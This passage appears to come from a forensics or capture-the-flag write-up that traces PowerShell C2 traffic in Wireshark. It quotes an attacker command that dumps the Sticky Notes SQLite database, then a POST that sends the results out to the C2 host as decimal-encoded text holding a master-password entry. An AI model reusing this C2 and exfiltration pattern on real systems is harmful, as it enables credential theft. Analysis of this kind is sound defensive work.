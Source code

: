 Using the time format used in Wireshark I got the filter below and found the packet and stream containing this command.

`http.date == "Fri, 13 Jan 2023 17:25:38 GMT"`

```
GET /b86459bb HTTP/1.1
X-38d2-8f49: 8cce49b0-b86459bb-27fe2489
User-Agent: Mozilla/5.0 (Windows NT; Windows NT 10.0; en-US) WindowsPowerShell/5.1.18362.145
Host: cdn.bpakcaging.xyz:8080
Connection: Keep-Alive

HTTP/1.0 200 OK
Server: Apache/2.4.1 
Date: Fri, 13 Jan 2023 17:25:38 GMT
Content-type: text/javascript; charset=UTF-8
Access-Control-Allow-Origin: *

.\Music\sq3.exe AppData\Local\Packages\Microsoft.MicrosoftStickyNotes_8wekyb3d8bbwe\LocalState\plum.sqlite "SELECT * from NOTE limit 100";pwd
```

This packet shows it takes place over the C2 channel discovered previously:

`Request URI: hhttp://cdn.bpakcaging.xyz:8080/b86459bb/b86459bb`

So we can expect the response to this instruction to be returned in a POST request. A few packets later, by time, there is a POST to `http://cdn.bpakcaging.xyz:8080` containing encoded data.

```
POST /27fe2489 HTTP/1.1
X-38d2-8f49: 8cce49b0-b86459bb-27fe2489
User-Agent: Mozilla/5.0 (Windows NT; Windows NT 10.0; en-US) WindowsPowerShell/5.1.18362.145
Content-Type: application/x-www-form-urlencoded
Host: cdn.bpakcaging.xyz:8080
Content-Length: 1522
Connection: Keep-Alive

92 105 100 61 56 54 56 49 53 48 98 100 45 97 53 54 52 45 52 50 51 98 45 57 50 53 54 45 55 48 100 51 55 56 49 55 57 52 98 49 32 77 97 115 116 101 114 32 80 97 115 115 119 111 114 100 13 10 92 105 100 61 97 100 56 98 53 50 102 48 45 101 49 98 98 45 52 48 102 54 45 98 98 102 57 45 52 55 97 53 51 102 57 49 56 48 97 98 32 37 112 57 94 51 33 108 76 94 77 122 52 55 69 50 71 97 84 94 121 124 77 97 110 97 103 101 100 80 111 115 105 116 105 111 110 61 68 101 118 105 99 101 73 100 58 92 92 63 92 68 73 83 80 76 65 89 35 68 101 102 97 117 108 116 95 77 111 110 105 116 111 114 35 49 38 51 49 99 53 101 99 100 52 38 48 38 85 73 68 50 53 54 35 123 101 54 102 48 55 98 53 102 45 101 101 57 55 45 52 97 57 48 45 98 48 55 54 45 51 51 102 53 55 98 102 52 101 97 97 55 125 59 80 111 115 105 116 105 111 110 61 49 49 48 54 44 52 51 59 83 105 122 101 61 51 50 48 44 51 50 48 124 49 124 48 124 124 89 101 108 108 111 119 124 48 124 124 124 124 124 124 48 124 124 56 99 97 50 50 99 48 101 45 98 97 53 101 45 52 57 57 97 45 97 56 54 99 45 55 52 55 51 97 53 51 100 99 54 100 101 124 55 52 102 48 56 55 50 52 45 99 99 99 57 45 52 99 101 54 45 57 52 101 55 45 56 99 57 57 101 54 99 100 52 50 99 54 124 54 51 56 48 57 50 50 52 55 51 57 55 49 57 57 53 56 57 124 124 54 51 56 48 57 50 50 52 55 53 49 54 49 48 55 48 55 57 13 10 13 10 80 97 116 104 32 32 32 32 32 32 32 32 32 32 32 32 32 32 32 13 10 45 45 45 45 32 32 32 32 32 32 32 32 32 32 32 32 32 32 32 13 10 67 58 92 85 115 101 114 115 92 106 46 119 101 115 116 99 111 116 116 13 10 13 10 13 10
```
